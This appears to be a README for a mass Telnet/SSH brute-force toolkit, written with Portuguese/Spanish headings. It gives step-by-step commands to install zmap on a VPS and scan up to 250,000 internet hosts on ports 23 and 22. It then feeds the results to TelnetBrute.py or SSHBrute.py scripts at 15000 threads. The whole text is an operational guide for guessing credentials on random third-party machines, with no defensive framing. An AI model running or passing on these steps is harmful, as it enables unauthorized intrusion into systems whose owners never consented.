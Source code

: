 [VPS CentOS 6.9/6.8] (Recomendado)

- Install zmap

1- sh CentOS_zmap_auto_install.sh OR Debian_zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 250000    ---OR---    zmap -p22 -o mfussh.txt -N 250000

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



Video: https://www.youtube.com/embed/ZOCRpKSFLfs
